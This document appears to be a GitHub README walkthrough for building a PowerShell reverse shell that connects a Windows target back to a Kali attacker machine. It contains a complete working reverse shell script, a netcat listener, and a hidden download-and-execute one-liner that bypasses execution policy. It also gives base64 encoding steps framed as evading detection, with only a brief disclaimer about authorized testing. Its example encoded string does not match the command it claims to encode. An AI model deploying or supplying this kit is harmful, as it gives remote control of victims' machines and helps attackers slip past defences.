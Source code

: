 # PowerShell Reverse Shell Walkthrough

## Overview

This guide will walk you through the process of setting up a **PowerShell Reverse Shell** to connect from a target Windows machine back to your Kali Linux machine. The reverse shell allows you to remotely execute commands on the target machine after it connects back to your attacker's machine.

This walkthrough also includes steps to encode the PowerShell reverse shell command to evade basic detection mechanisms during testing.

### Important Disclaimer

**Warning:** This tool is intended for ethical penetration testing and security assessments only. Unauthorized access to systems or networks without permission is illegal and unethical. Always obtain explicit written permission before testing or exploiting any systems.

---

## Prerequisites

### **Attacker Machine (Kali Linux)**:
- **Netcat** or similar tool to listen for the reverse shell connection.
- **Python 3** for hosting the reverse shell script.

### **Target Machine (Windows)**:
- **PowerShell** should be available (on most modern Windows machines).

---

## Walkthrough

### **Step 1: Set Up the Listener on Kali**

The first step is to set up a listener on your Kali machine to receive the incoming reverse shell connection. Open a terminal and run the following command:

```bash
nc -lvnp <port>
```

- Replace `<port>` with the port you want to listen on (e.g., `4444`). Ensure that this port is open and accessible from the target machine.

---

### **Step 2: Prepare the Reverse Shell Script**

Create the reverse shell PowerShell script that will be executed on the target machine. Save the following script as `reverse.ps1` on your Kali machine (e.g., `/var/www/html/reverse.ps1`):

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<kali_ip>', <port>);
$stream = $client.GetStream();
[byte[]]$buffer = 0..65535 | % { 0 };
while (($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String);
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```

- Replace `<kali_ip>` with your Kali machine's IP address.
- Replace `<port>` with the same port number you are using for the listener (e.g., `4444`).

---

### **Step 3: Start a Simple HTTP Server on Kali**

Use Python's built-in HTTP server to host the `reverse.ps1` script and make it accessible to the target machine. Run the following command on Kali:

```bash
python3 -m http.server 80
```

This will start an HTTP server on port `80` and serve files from the current directory. Make sure the `reverse.ps1` script is in the directory being served (e.g., `/var/www/html/`).

You can now access your script from the target machine using your Kali machine's IP address:

```
http://<kali_ip>/reverse.ps1
```

---

### **Step 4: Run the PowerShell Command on the Target Machine**

On the target machine (the Windows machine), open a PowerShell window and run the following command to download and execute the reverse shell script:

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/reverse.ps1')"
```

- Replace `<kali_ip>` with your Kali machine’s IP address.

This command performs the following actions:
1. `-NoP`: Disables PowerShell profile.
2. `-NonI`: Disables interactive mode.
3. `-W Hidden`: Runs PowerShell in hidden window mode.
4. `-Exec Bypass`: Bypasses the execution policy, allowing unsigned scripts to run.
5. `IEX`: Executes the downloaded PowerShell script.

Once this command is executed, the target machine will connect back to your Kali machine's listener, providing you with a command prompt on the target system.

---
### **Steps to Encode the Reverse Shell**

1. **Prepare the PowerShell Command** Use the original PowerShell reverse shell command:
    
    ```powershell
    IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/reverse.ps1')
    ```
    
    Replace `<kali_ip>` with your Kali machine's IP address.
    

---

2. **Encode the Command in Base64** On your Kali machine, encode the command using this command:
    
    ```bash
    echo -n "IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/reverse.ps1')" | iconv -t UTF-16LE | base64
    ```
    
    The result will be a Base64-encoded string. For example:
    
    ```
    SABSAGUAdgBlAHIAcwBlAC4AUABTADEACgA=
    ```
    

---

3. **Run the Encoded Command** Use the encoded string with PowerShell's `-EncodedCommand` parameter:
    
    ```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -EncodedCommand <Base64String>
    ```
    
    Replace `<Base64String>` with the output from the previous step.
    
    Example:
    
    ```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -EncodedCommand SABSAGUAdgBlAHIAcwBlAC4AUABTADEACgA=
    ```
    


## Legal Disclaimer

This tool is intended for use in authorized security assessments only. Unauthorized access to computer systems is illegal. Always obtain explicit written permission before testing or exploiting any system.
